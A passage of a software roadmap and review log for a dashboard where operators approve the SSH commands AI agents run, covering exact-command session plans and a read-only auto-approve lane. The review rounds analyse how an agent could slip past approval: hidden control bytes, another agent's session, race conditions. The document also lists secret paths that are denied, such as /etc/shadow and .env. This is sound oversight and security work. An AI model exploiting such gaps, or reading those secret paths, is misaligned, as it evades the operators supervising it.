Solid work. The rendering is pure and escaped throughout (`esc` covers `& < > " '`,
so the attribute uses are safe too), the history row survives the poll, the
headline is never green, the write step is visible without scrolling at both
widths (checked the committed screenshots), and the node-based escaping tests are
a good pattern for later UI chunks. Gate re-run by the reviewer: pre-commit OK,
`1711 passed`.

* **B1 — must fix: the two-press Approve silently drops requests from
  callers that are not a person pressing the button.** `handleAction(id,
  'approve')` now returns early (toast only) for a long command with an unknown
  step. Two existing callers rely on it approving:
  * `bulkApprove()` loops over the selection, then calls `clearSelection()`. A
    selected long-unknown request is skipped, and the selection is cleared, so the
    operator believes it was approved while it stays pending and the agent times out.
  * `confirmSessionOverride()` ("Start Session Override" from a pending row) calls
    `handleAction(ctx.request_id, 'approve')` to clear the row it was opened from;
    that row stays pending.

  Fix: give `handleAction` an options argument, e.g. `handleAction(id, action,
  {confirmed: true})`, which skips the two-press check.
  * Session override path: pass `confirmed: true` (the operator has just granted
    a bypass for this session explicitly).
  * Bulk approve: **do not** auto-confirm. Approve the others, leave the
    long-unknown ones **selected**, and show one toast: "N requests have unknown
    steps — review and approve them individually." Only clear the ones that were sent.
  * Keyboard approve and the per-card buttons keep the two-press behaviour.
  * Tests (node harness): bulk with one long-unknown + one normal request → one
    POST, the long-unknown id stays in the selection, toast shown; session-override
    path → POST sent; single press on the card → no POST, second press → POST.
* **N1 — optional nit: decoded scripts appear twice on the queue card**
  (the new collapsed `decoded script` block on the step, and the existing
  "DECODED" block from `decodedCmdHtml` below the meta line). If the step has a
  `script`, skip `decodedCmdHtml` for that card, or the reverse. Either is fine.

**What to do:** fix B1 (and N1 if you agree) on this branch, re-run
`bash scripts/verify.sh`, add a Round 2 paragraph to Implementer notes, push, stop.

**Round 2 — 2026-11-08 — approved and merged.**

B1 fixed as specified: `handleAction(id, action, {confirmed})`, used only by
`confirmSessionOverride()`; bulk approve sends the rest, keeps the
long-unknown ones selected (now drawn from `_ccSelectedIds`, so they stay
checked across polls) and says why. N1 fixed: the decoded script appears once
(checked the re-shot screenshot). Gate re-run by the reviewer: pre-commit OK,
`1715 passed`.

---

## Chunk F3 — Session plans · slug `session-plans` · dashboard + MCP

### Goal

Replace "approve five, then open a 30-minute override" with one meaningful
review: the agent sends the **changes** it intends to make, the operator
approves the list, and those exact commands run without further prompts during
the session. Looking around is covered by F4; F3 covers the doing.

### Design

* A plan belongs to a minted session (`sessions.id`). Items are exact commands
  per host:
  `{"host": "<gateway ip or *>", "command": "<exact text>", "max_uses": 1}`.
  Matching is **byte-exact after trimming whitespace**. No patterns, no
  prefixes: this keeps the chunk 2a and 1c guarantees intact.
* Lifecycle: `proposed → approved | denied → expired | ended`. Default TTL
  60 min, max 4 h, set by the operator on approval. One active plan per session;
  a new proposal replaces a `proposed` one and needs a fresh approval if one is
  already `approved`.
* The operator may **remove items** before approving (approve a subset). Editing
  item text is out of scope.
* Max 50 items, each ≤ 4 kB.

### Changes

* **DB** (`db/session_plans.py`, tables created in `db/core.py` init):
  `session_plans(id, session_id, status, created_at, decided_at, decided_by, until, note)`
  and `session_plan_items(id, plan_id, host, command, max_uses, uses, removed)`.
* **MCP tools** (`core/mcp_server.py`, added next to `session_begin`, always allowed):
  * `session_plan(session_id, items, note)` → `{plan_id, status:"proposed"}`
    and sends a notification ("Plan for session X: 7 changes on 3 hosts").
  * `check_plan(plan_id)` → status, remaining uses per item, `until`.
  Update `SESSION_BEGIN_DESC` and `docs/AGENT_MANUAL.md`: *recon first, then
  propose a plan for the changes*.
* **REST** (session auth): `GET /api/session-plans?status=proposed`,
  `POST /api/session-plans/{id}/approve` `{ttl_minutes, removed_item_ids[]}`,
  `POST /api/session-plans/{id}/deny`, `POST /api/session-plans/{id}/end`.
  Every action is audit-logged (`plan_proposed/approved/denied/ended`).
* **Approval path** (`POST /api/request`): after the freeze check and before
  the session override, if `sid` has an approved, unexpired plan with an item
  matching `(host or *, command)` and `uses < max_uses`, and the gateway is not
  Zero-Trust → atomically increment `uses` (single `UPDATE … WHERE uses < max_uses`),
  create the request as `approved` with `reason="session-plan:<plan>:<item>"`,
  and audit `jit_plan_approved`. The breakdown-based checks in F4 do **not** apply here.
  The operator approved these exact bytes.
* **UI:** a "Plans" card in the queue area above single requests. Each item is
  rendered with the F2 breakdown component; checkboxes remove items; a TTL
  selector (30 / 60 / 120 / 240 min). Session modal shows the plan and per-item uses.
* **Stats:** the request reason prefix `session-plan:` counts as its own
  "how approved" bucket (see F6).

### Tests to add

* Propose → approve subset → matching command auto-approves once; second use
  with `max_uses=1` → normal pending JIT; removed item → pending JIT.
* Host-specific item does not match another host; `*` matches any.
* Expired / ended / denied plan → pending JIT.
* Zero-Trust gateway and freeze both win over a plan.
* Concurrency: two simultaneous requests for a `max_uses=1` item → exactly one approved
  (reuse the `test_db_concurrency.py` pattern).
* A plan for session A never approves a command carrying session B's id, or no id.
* With strict sessions on, an unsigned id cannot use a plan (the gateway refuses
  first; add a dashboard-side assertion too).
* MCP: `session_plan` validates its inputs (item count, sizes, host format) and
  rejects an unknown session id.

### Compat impact

Additive. Old gateways work unchanged: they already poll `request_status` and
claim tickets for `approved` rows.

### Acceptance criteria

- [ ] All tests above pass; the audit log shows who approved which items.
- [ ] Docs updated (AGENT_MANUAL, API.md).
- [ ] Reviewer does a dedicated security pass on the approval path (atomic use counting, session binding, ordering in § 2.6) and records it under Reviewer notes.
- [ ] **Security reviewer sign-off** (§ 2.6a) recorded before merge.

### Implementer notes

**What I did**

* **DB** (`db/session_plans.py`, tables created from `db/core.py`):
  `session_plans` + `session_plan_items` and the lifecycle
  `proposed → approved | denied → expired | ended`. `create_plan` replaces an
  existing `proposed` plan; `approve_plan` requires the plan to still be
  `proposed`, marks the removed items, clamps the TTL to 1–240 min (default
  60) and ends any other approved plan for the session; `expire_plans` lazily
  expires; `claim_plan_item` selects the matching item and then does **one**
  conditional `UPDATE … SET uses = uses + 1 WHERE id = ? AND removed = 0 AND
  uses < max_uses`, refusing when `rowcount != 1`.
* **Approval path** (`POST /api/request`): the plan check sits after the
  encoded-payload block and before the session override (§ 2.6). It runs only
  with a session id, when the fleet is not frozen and the gateway is not
  Zero-Trust; with strict sessions on, `session_problem(sid)` must be empty
  (the dashboard half of the signature rule — the gateway refuses unsigned ids
  first). A match creates the request as `approved` with
  `reason="session-plan:<plan>:<item>"`, audits `jit_plan_approved` and returns
  `{plan: true, plan_id}`. Matching is byte-exact after trimming whitespace;
  `*` matches any host, an explicit host matches only that gateway.
* **REST**: `GET /api/session-plans?status=&session_id=`,
  `POST /{id}/approve {ttl_minutes, removed_item_ids}`, `POST /{id}/deny`,
  `POST /{id}/end` — session-authenticated, each audited (`plan_approved`,
  `plan_denied`, `plan_ended` with the actor and item ids; the proposal is
  audited as `plan_proposed`). Plan items carry their F2 breakdown for the
  review card.
* **MCP**: `session_plan(session_id, items, note)` and
  `check_plan(plan_id, session_id?)`, registered next to `session_begin` on the
  shared server and every per-integration server and added to
  `_ALWAYS_ALLOWED`. `session_plan` validates the id shape and that the session
  exists, the 50-item / 4 kB / host / max_uses limits, notifies the operator
  ("Plan for session X: N changes on M hosts") and audits `plan_proposed`.
* **UI**: a "Plans awaiting approval" card above the queue. Each item shows its
  host, `×max_uses`, the exact command and the F2 breakdown; unticking removes
  it from the approval; a TTL selector (30 min – 4 h) and Approve/Deny. The
  session modal shows the session's plan with per-item `uses/max_uses` and an
  End button. Every agent-controlled string is escaped.
* **Docs**: `docs/AGENT_MANUAL.md` (a "Session plans" section plus the
  "one command, one ticket" exceptions), `docs/API.md`, and the `session_begin`
  description.

**Surprises and decisions**

* The plan check sits **after** the encoded-payload scan, so a blocked decoded
  payload still raises before any plan can approve it.
* The claim's `rowcount == 0` case means another request took the last use; the
  caller then falls through to normal JIT instead of being approved. Eight
  threads racing a `max_uses=1` item produce exactly one approval.
* Removed items stay in the table (`removed=1`) so the audit trail shows what
  the operator dropped; they never match. Denied/expired/ended plans match
  nothing (the claim requires `status='approved' AND until > now`), and
  `expire_plans` marks an elapsed plan `expired` so the UI says so.
* The proposal notification rides the existing `jit` webhook event, so it
  reaches operators with the default subscription; no new event type to
  configure.
* `check_plan` takes an optional `session_id` and refuses a mismatch — plan ids
  are small integers and a plan names the commands another session intends to
  run.
* The TTL is clamped server-side (1–240 min) even though the UI offers
  30/60/120/240, and a plan can only be approved once (`not_proposed`
  otherwise).
* One existing test changed: `tests/test_omada_mcp.py` asserted the exact
  per-integration tool set, which now includes `session_plan` and `check_plan`
  (commit message says so). Everything else is untouched.

**Deliberately not done**

* No item editing (out of scope), no guest-name labels (F7 optional), and no
  statistics bucket — the `session-plan:` "how approved" bucket is F6's job.
* No change to the gateway, to session overrides, or to F4's read lane. A plan
  is the only new auto-approve path and it only ever matches the exact bytes
  an operator approved.

**Tests** — `tests/test_f3_session_plans.py` (15): approve-once-then-pend and
the audit event; approve-a-subset (removed item pends); host-specific vs `*`;
session binding (another id and no id never match); expired/denied/ended plans
do not approve; Zero-Trust and Freeze win; strict sessions refuse an unminted
session; the 8-thread `max_uses=1` race approves exactly one; the REST list /
approve-subset / deny / end / auth; and the MCP validation + `check_plan`
reporting.

**Screenshot** — the Plans card (each item with its F2 breakdown, the TTL
selector and the approve/deny actions):


and the session modal's plan with per-item uses:


`bash scripts/verify.sh` (pre-commit green):

```
1750 passed, 7 warnings in 350.22s (0:05:50)
```

(1735 before this chunk + 15 new F3 tests.)


### Round 2 — fixes for reviewer round 1 (R1–R4, S1–S4)

The "hand-off to the security reviewer" note was left alone as instructed.

* **R1 ownership.** `session_plan` refuses `session_not_yours` when the
  session's `sessions.agent` is set and differs from `current_agent_name()`;
  `check_plan` is scoped to the caller the same way, so the optional
  `session_id` argument is gone. The plan payload now carries `agent` and
  `session_goal`, and the card shows both (escaped) next to the plan number —
  the operator can no longer approve another agent's plan believing it is
  theirs. Tests: `test_f3_mcp_session_plan_refuses_another_agents_session`,
  `test_f3_mcp_check_plan_refuses_another_agents_plan`,
  `test_f3_plan_payload_names_the_agent_and_goal`.
* **R2 TTL reset on poll.** The chosen TTL lives in `_planTtl` (like
  `_planRemoved`), so the 3 s queue refresh keeps it. Harness test
  `test_f3_plan_ttl_survives_a_poll_rerender` (choose 30 min, render twice,
  still selected); the screenshot run also checked it live against the
  polling page (`ttl after poll: 30`).
* **R3 plan replaced mid-review.** `renderPlans` remembers the plan id shown
  per session; when a session's proposal changes, the new card gets the
  "This proposal replaced the one you were reviewing" banner, a warning
  border, and Approve needs a second press (F2's pattern). Harness test
  `test_f3_replaced_plan_needs_a_second_press` (first press sends 0 POSTs,
  second sends 1).
* **R4 End vs claim.** The claim's UPDATE now also requires
  `plan_id IN (SELECT id FROM session_plans WHERE status='approved' AND
  until > ?)`. `claim_plan_item` uses a `_claim_candidate` helper so the test
  can end the plan between the SELECT and the UPDATE:
  `test_f3_end_between_select_and_update_consumes_no_use` (no use consumed).
* **S1 state guards.** `_decide` allows Deny only from `proposed` and End only
  from `proposed`/`approved`; anything else is `PlanError('bad_state')` → 400,
  so a decided outcome is never rewritten. Test:
  `test_f3_deny_approved_and_end_expired_are_rejected`.
* **S2** `removed_item_ids` is typed `list[int]`, so a non-integer is a 422
  instead of a 500. Test: `test_f3_non_integer_removed_ids_is_422`.
* **S3** `fetchSessionPlans` uses `authFetch`. Harness test:
  `test_f3_plan_fetch_uses_authed_fetch` (the plans URL goes through
  `authFetch`, not plain `fetch`).
* **S4 F2's rule for plans.** `planNeedsConfirm` requires a second press when
  any kept item is a >500-char command with an unknown step (a plan can
  authorise many more runs than one request). Harness test:
  `test_f3_long_unknown_plan_needs_a_second_press`.

New harness: `tests/fixtures/f3_harness.js` on top of
`tests/fixtures/appjs_loader.js` (the F2/F7 pattern). All 25 F3 tests pass;
the full gate:

```
1760 passed, 7 warnings in 349.18s (0:05:49)
```

**Screenshot** — replaced so the card shows the proposing agent (`hermes`)
and the session goal next to the plan number:


### Round 3 — security items (SR1–SR4)

The security reviewer approved F3 on `de741ec`, conditional on SR1; SR2–SR4
are done as well.

* **SR1 — truly byte-exact matching.** `claim_plan_item` no longer strips the
  request command (the gateway already trims; the old `str.strip()` also
  removed `\x1f`, `\x85`, `\xa0`, `\u2028`, …), and `validate_items`
  refuses any command containing a C0 control (tab excepted), DEL or
  non-ASCII whitespace — checked on the **raw** text, because `strip()` itself
  would have hidden `\x1c`/`\xa0` before the check. Tests:
  `test_f3_sr1_item_does_not_match_control_bytes` (an item `echo ok` does not
  match `echo ok\x1f`, `\x1cecho ok`, `echo ok\u00a0`; it still matches
  exactly `echo ok`) and `test_f3_sr1_proposal_refuses_hidden_characters`
  (those bytes, DEL and `\n` are refused with `invalid_command`; plain space
  and tab are accepted).
* **SR2 — ownership fails closed.** Both tools now compare
  `owner != current_agent_name()` without the `owner and` guard, so an empty
  owner (or an anonymous caller) is never "yours". Tests:
  `test_f3_sr2_anonymous_caller_is_refused` (no agent context, both tools) and
  `test_f3_sr2_session_without_owner_is_refused`.
* **SR3 — the warning sits where the decision is made.** The plan payload
  carries `strict_sessions` (`require_sessions_enabled()`), and the card shows
  "Strict sessions are off — anyone with the gateway SSH key who knows this
  session id can use this plan." when it is off. AGENT_MANUAL now recommends
  enabling strict sessions before relying on plans. Tests:
  `test_f3_sr3_api_reports_whether_strict_sessions_are_on` and the harness
  test `test_f3_sr3_strict_sessions_hint_in_the_card`.
* **SR4 — broad items stand out.** An item with `host: "*"` or
  `max_uses > 1` is rendered with `plan-item-broad`, an amber host label and
  an amber uses count (the two ways an item grants more than one exact run on
  one host). Harness test: `test_f3_sr4_broad_items_are_highlighted`
  (two of three items highlighted; a single-use exact item is not).

The Plans screenshot was refreshed: it shows the strict-sessions line, the
`any host` item and the `×2` item both highlighted, next to the agent and
session goal.

Full gate:

```
1767 passed, 7 warnings in 351.50s (0:05:51)
```

(1760 before this round + 7 new security tests.)

### Reviewer notes

**Round 1 (2026-11-08): changes requested.** 105 targeted tests pass locally
(`test_f3_session_plans.py` + `test_omada_mcp.py`); implementer's full run
1750 passed.

*Security pass on the approval path. These checks are correct:*

* **Order (§ 2.6):** the plan check sits after the encoded-payload block and
  before the session override. Freeze and Zero-Trust are checked first. The
  gateway's blocklists and self-protection run before the dashboard is asked,
  so a plan can never approve a blocked command.
* **Exact bytes end to end:** a match creates an ordinary `approved` row, so
  the gateway still runs it through claim-and-burn of a lockbox ticket that
  matches the command byte for byte. A plan adds no new way to execute.
* **Session binding:** the claim is keyed on `sid`. No id means no match, and
  another session's id never matches (tests cover both).
* **Use counting:** a conditional `UPDATE … WHERE uses < max_uses` with
  `rowcount` checked; the 8-thread race approves exactly one.
* **Approval:** by plan id only, over REST with `_check_session`. Items are
  never changed after creation (a new proposal is a new id), so an approved
  plan's content cannot be swapped. No MCP tool can approve.
* **XSS:** every agent string in the card and the modal goes through
  `escapeHtml`; ids are passed through `Number()`.

*Must fix:*

* **R1 Ownership.** `session_plan` accepts any existing session, including
  one minted by a different agent (`sessions.agent` records who minted it).
  The notification and card then show the other session's goal, so the
  operator approves a plan believing it is Hermes's. Fixes:
  * `session_plan`: refuse with `session_not_yours` when `sessions.agent` is
    set and differs from `current_agent_name()`.
  * `check_plan`: return only plans whose session belongs to the caller. That
    replaces the optional-`session_id` check; the `_ALWAYS_ALLOWED` comment
    already says these tools are "scoped to the caller".
  * The plan card shows the **agent** and the **session goal** (escaped).
  * Tests: agent B is refused for A's session, and `check_plan` refuses B.
* **R2 TTL resets on every poll.** `fetchSessionPlans()` runs in the queue
  refresh and rebuilds `plans-list.innerHTML`, so the TTL `<select>` jumps
  back to 1 h. An operator who picks 30 min and waits a few seconds approves
  for 1 h. Fix: keep the chosen TTL in state (like `_planRemoved`), or skip
  the re-render when the plan list is unchanged. Add a harness test: choose a
  TTL, re-render, check the selection.
* **R3 Plan replaced while it is being read.** A new proposal deletes the old
  one, and the next poll swaps the card's content under the operator. They
  can press Approve on items they never saw. Fix: when a session's proposed
  plan id changes while its card is shown, mark the card "Replaced, review
  again" and require a second press (reuse the F2 two-press pattern). Add a
  harness test.
* **R4 End vs claim.** The claim's UPDATE rechecks `uses` but not the plan.
  If End or Deny lands between the SELECT and the UPDATE, one more use goes
  through. Add `AND plan_id IN (SELECT id FROM session_plans WHERE status =
  'approved' AND until > ?)` to the UPDATE, with a test that ends the plan
  between the two steps (monkeypatch or a direct call).

*Should fix:*

* **S1 State guards in `_decide`.** Deny only a `proposed` plan, and End only
  a `proposed` or `approved` one; anything else returns `PlanError('bad_state')`,
  which becomes a 400. Today Deny on an approved plan, or End on an expired
  one, rewrites its recorded outcome.
* **S2** `removed_item_ids` with a non-integer gives a 500. Type it
  `list[int]` in the payload model.
* **S3** `fetchSessionPlans` uses plain `fetch`; switch to `authFetch` like
  the decide calls.
* **S4** Apply F2's rule to the plan: if any kept item is over 500 chars with
  an unknown step, Approve needs a second press. A plan can carry many more
  runs than a single request.

*Hand-off to the security reviewer (not a regression, no change asked
here):* with strict sessions off, any SSH caller that knows a session id
can use that session's plan. Session overrides have the same exposure
today. Minted ids are 12 hex chars, but agents may also bring their own
chat ids. The plan's docs should recommend turning strict sessions on
before relying on plans. The security reviewer decides whether to require
it.


**Round 2 (2026-11-08): approved by the feature reviewer; waiting on security sign-off (§ 2.6a).**
127 F3, F2 and MCP tests pass locally; implementer's full run 1760 passed.

* **R1:** `session_plan` and `check_plan` refuse another agent's session with
  `session_not_yours`. The card shows the agent and the session goal, both
  escaped. A session minted with no agent can still take a plan from any
  caller; the card then reads "unknown agent", which is acceptable.
* **R2:** the TTL lives in `_planTtl` and survives the 3 s poll.
* **R3:** a changed proposal id for a session on screen shows the banner and
  needs a second press. `create_plan` replaces a proposal in one transaction,
  so no poll can see a gap that would hide the swap.
* **R4:** the UPDATE rechecks the plan's status and `until`; a test ends the
  plan between the SELECT and the UPDATE.
* **S1–S4:** all done as asked.

**Do not merge until the security reviewer signs off below.**

**Round 3 (2026-11-08): SR1 checked; merged.** SR1 is correct.
`claim_plan_item` compares the request bytes unstripped, and `validate_items`
checks the raw text before `strip()`. The listed tests pass.

* **Fixed during review (SR2 gap):** the check `owner != current_agent_name()`
  still let an anonymous caller use an ownerless session, because `'' == ''`.
  Both tools now use `not owner or owner != current_agent_name()`. Added
  `test_f3_sr2_anonymous_caller_and_ownerless_session_is_refused`; it fails
  before the fix and passes after.
* **Observation (no change):** the gateway does not trim `SSH_ORIGINAL_COMMAND`.
  An agent that sends stray leading or trailing spaces gets no match and
  falls through to normal JIT, which fails safe.
* SR3 and SR4 done. Per the security reviewer's merge rule, no further
  security pass is needed.

#### Security reviewer sign-off

**2026-11-08 — approved, conditional on SR1 (security chat, reviewed at `de741ec`).**
Reviewer ran F3, all `test_sec_*`, gateway-script, session and session-override
tests on the branch: 317 passed. The branch already contains security Chunk H.

**What was reviewed and holds:**
1. **Approval path (`receive_request`).** Placement is right: after the
   encoded-payload block, before the session override. Freeze and Zero-Trust
   short-circuit it; strict sessions use the global flag
   (`require_sessions_enabled`), which is stricter than the per-gateway scope
   and is fine. Blocklists and the hard block are enforced by the gateway
   before a request ever reaches `/api/request`, so a plan cannot approve
   anything the gateway refuses. Security chunk 1c still binds execution to
   the approved bytes, and the approved row records
   `session-plan:<plan>:<item>` plus an audit event — attributable.
2. **`claim_plan_item`.** The conditional UPDATE (`uses < max_uses`, plan
   still `approved` and unexpired, item not removed) is atomic; a lost race
   rolls back and falls through to normal JIT. Correct.
3. **Ownership (`session_plan`, `check_plan`).** Sessions are only created by
   `session_begin`, which always records the calling agent; `upsert_session`
   never overwrites an existing owner, so adopting someone else's id does not
   transfer it (worst case a pre-minted id denies its real owner — no
   escalation). All 22 live sessions have an owner. Combined with R1 (agent +
   goal on the card), the operator cannot be misled about whose plan it is.
4. **Hand-off — should plans require strict sessions?** **No, not required.**
   Without strict sessions a plan is usable by any caller that holds the
   gateway SSH key *and* the session id — the same trust boundary session
   overrides already have — but a plan is strictly narrower: exact
   operator-approved bytes, named hosts, counted uses, TTL ≤ 4 h. Requiring
   strict sessions would make plans unavailable on installs that have not
   turned it on, for little gain. Do instead: **SR3** below. (The live install
   already runs with strict sessions on.)

**Required before merge:**

* **SR1 — make the match truly byte-exact.** `claim_plan_item` compares
  `command.strip()`. Python's `str.strip()` removes far more than the
  gateway's `[[:space:]]` trim (e.g. `\x1c–\x1f`, `\x85`, `\xa0`, `\u2028`), so
  the item `echo ok` matches a request for `echo ok` followed by one of those
  bytes; the request row then stores — and, via 1c, the gateway runs — the
  extra bytes. Impact is small (those bytes cannot start a new command), but
  the design promises exact bytes. Fix: compare the request command **without**
  stripping (the gateway already trims), and in `validate_items` refuse
  commands containing C0 control characters other than tab, DEL, or Unicode
  whitespace other than plain space/tab. Tests: an item `echo ok` does **not**
  match `echo ok\x1f`, `\x1cecho ok`, `echo ok\u00a0`; a proposal containing
  such characters is refused with `invalid_command`.

**Recommended (do now or in a follow-up, no second security pass needed):**

* **SR2 — ownership fails closed.** In both tools, treat an empty owner as
  "not yours" (`owner != current_agent_name()` without the `owner and`
  guard). Today unreachable (every session has an owner), but it removes the
  "unknown agent can take a plan from any caller" case noted under R1.
* **SR3 — say it where the operator decides.** When strict sessions are off,
  show one line in the plan approval card: "Strict sessions are off — anyone
  with the gateway SSH key who knows this session id can use this plan." Keep
  the docs recommendation to enable strict sessions before relying on plans.
* **SR4 — highlight the broad items.** In the card, make `any host` (`*`)
  items and `max_uses > 1` visually distinct, since those are the items that
  grant more than one exact run on one host.

**Merge rule:** once SR1 is in with its tests and the feature reviewer has
checked it, F3 may merge into `feature-roadmap` without another security
pass. SR2–SR4 do not block.

---

## Chunk F4 — Read-only lane (shadow first) · slug `read-lane` · dashboard

### Goal

Let commands that **only read** run without a prompt, opt-in per gateway, after
a shadow period that shows the operator what it *would* have approved.

### Design

* Per-gateway setting `read_lane`: `off` (default) | `shadow` | `on`.
* A JIT request is **read-lane eligible** only if all of these hold:
  1. `breakdown.complete` is true, every step is `read` (no `write`, no
     `unknown`), and every step's verb is on the reviewed `READ_LANE_VERBS`
     allowlist in `core/read_policy.py` — status verbs that take no file
     operands, and file readers (`cat`, `head`, `tail`, `grep`, `wc`, `ls`,
     `stat`, `du`) that may only touch the safe trees;
  2. no flags at all (F1's flag list fails closed; `repo-config` and
     `follows` block automatically, and so will any flag F1 adds later);
  3. every step reads only inside the safe trees — `/var/log/`, `/proc/`,
     `/sys/` and exactly `/etc/os-release`, `/etc/hostname`, `/etc/hosts`,
     `/etc/resolv.conf` (the gateway runs **every** command as root, so this
     applies to every step, not just `sudo` ones). `/proc/*/root`,
     `/proc/*/cwd`, `/proc/*/fd`, `/proc/*/map_files`, `/proc/*/mem`,
     `/proc/*/environ`, `kcore`, `kmsg` and all of `/dev/` are refused, as are
     globs and `..` components in a path operand;
  4. no inner target (`pct exec`, `qm guest exec`, `docker exec`) — the lane is
     opted in per gateway and the guest never opted in;
  5. command ≤ 8 kB; gateway not frozen and not Zero-Trust;
  6. not blocked by the central blocklist (`policy_eval` verdict is not `blocked`/`fatal`).
* `shadow`: the request stays pending as usual, but the row gets
  `reason="read-lane-shadow"` (shown as a small chip "would auto-run") and an
  audit event. The operator's own decision is the ground truth.
* `on`: create the request as `approved`, `reason="read-lane"`, audit
  `jit_read_lane_approved`, no notification.
* A **read-lane report** in Statistics: for shadow-mode gateways, how many
  requests were eligible, how many of those the operator approved and denied,
  and the median length. This is the evidence for switching to `on`.

### Changes

* `gateways.read_lane` column (migration, default `'off'`); `PUT /api/gateways/{ip}/read-lane`
  (session + audit). Toggle in the Gateways table next to Zero-Trust (three-state).
* `core/read_policy.py` (§ 2.6a): `is_read_ssh(breakdown)` holds the SSH read rules; `is_read_integration_call` wraps Chunk H.
* `core/read_lane.py` `eligible(breakdown, verdict) -> (bool, reason)`: gateway state, size and blocklist checks, then `read_policy.is_read_ssh`. No read rules of its own.
* Hook in `POST /api/request` after plans (F3) and session overrides, before host override.
* Stats endpoint fields + UI tile.

### Tests to add

* An eligibility table: ≥ 40 cases from the F1 fixtures, each with the expected
  verdict, including every exclusion above. **Every `write`/`unknown` fixture
  from F1 must be ineligible** (generated test).
* `shadow` never approves; `on` approves only eligible commands; `off` does nothing.
* Zero-Trust, freeze and blocklist win.
* Reading `.env` (even names only) is ineligible.

### Compat impact

Additive; old gateways work unchanged (same approved-row path as overrides).

### Acceptance criteria

- [ ] Default is `off` on every existing and new gateway (migration test).
- [ ] Reviewer does a dedicated security pass on `cmd_rules.py` and `read_lane.py` (try to find a read-classified command that writes, executes or leaks a secret) and records it under Reviewer notes.
- [ ] **Security reviewer sign-off** (§ 2.6a) recorded before merge; `read_lane.py` goes through `core/read_policy.py` only.
- [ ] Rollout note: at least 7 days in `shadow` on at least 2 gateways before
      `on` is offered in the UI (the toggle shows "on" disabled until that gateway has ≥ 7 days of shadow data).

### Implementer notes

**What I did**

* **`core/read_policy.py` (§ 2.6a)**: one entry point for "is this a read?".
  `is_read_ssh(breakdown)` is F4's rule set — the breakdown must be complete,
  every step must be `read`, none of F1's blocking flags may be set
  (`encoded`, `heredoc`, `nested-ssh`, `sensitive-path`, `redirect-to-file`),
  and a step marked `elevated` may only touch `/proc/`, `/sys/`, `/var/log/`
  or exactly `/etc/os-release` (a path token containing `..` is refused
  outright, so `/var/log/../…` cannot slip through the prefix check).
  `is_read_integration_call(tool, transport, args)` is a thin wrapper over
  Chunk H's `_read_only_refusal` — no new integration logic.
* **`core/read_lane.py`**: `eligible(breakdown, verdict, command, mode,
  frozen, zero_trust)` checks mode, freeze, Zero-Trust, the 8 kB cap and the
  policy verdict (`blocked`/`fatal` lose), then delegates to
  `read_policy.is_read_ssh`. It has no read rules of its own.
* **Setting**: `gateways.read_lane` (`off` default, migration) plus
  `read_lane_since`; `read_lane_ready()` is true after 7 days in shadow.
  `PUT /api/gateways/{ip}/read-lane` (session auth, audit `read_lane_<mode>`)
  refuses `on` before that window — the UI disables the option, but the
  server does not rely on the UI.
* **Hook** in `POST /api/request`, after F3's plan and the session override,
  before the host override (§ 2.6). `shadow`: the request stays pending as
  usual (notify + `jit_created`) but gets `reason="read-lane-shadow"` and an
  audit `jit_read_lane_shadow`; the operator's decision is the ground truth.
  `on`: creates `approved` with `reason="read-lane"`, audits
  `jit_read_lane_approved`, no notification.
* **UI**: a "would auto-run" chip on shadow rows, a three-state
  `off / shadow / on` select on the Gateway row (`on` disabled until ready),
  and a **Read-only lane · shadow** tile in Statistics (eligible, approved /
  denied, median length, how many auto-ran once on).

**Surprises and decisions**

* The 7-day rollout clock is stored (`read_lane_since`, set on entering
  shadow) rather than inferred from audit history; the "at least 2 gateways"
  part of the rollout note is operator policy and is not enforced in code.
* Shadow reuses the normal pending path instead of a separate branch, so
  notifications and the `jit_created` audit stay exactly as they were.
* F1's `sensitive-path` already covers `.env`, keys, `/etc/shadow`,
  `/proc/*/environ` and the broad `secret`/`token`/`passw` tokens, so those
  commands are refused by flag before the elevated-path rule ever runs.
* A read lane has no session requirement (unlike F3 plans): it also covers
  SSH callers that never minted a session, which is the common case for
  allowlist-less reads.
* The new statistics queries tripped the KI-1 regression test on the first
  gate run (`r.target_ip` without the alias); they are aliased now — the test
  did its job.

**Tests** — `tests/test_f4_read_lane.py` (67): 24 eligible and 27 ineligible
table cases covering every exclusion in the chunk, `.env` (four spellings),
and a **generated** test that every F1 `write`/`unknown`/incomplete fixture is
ineligible (≥20 checked). Plus the Chunk H wrappers, shadow-never-approves,
`on`-approves-only-eligible, `off`-does-nothing, Zero-Trust/freeze/blocklist
wins, the 8 kB cap, the default-`off` migration, the endpoint + 7-day gate +
session auth, and the statistics report (counts and median).

Security sign-off (§ 2.6a) is still owed by the security reviewer; the branch
is ready for that pass.

`bash scripts/verify.sh` (pre-commit green):

```
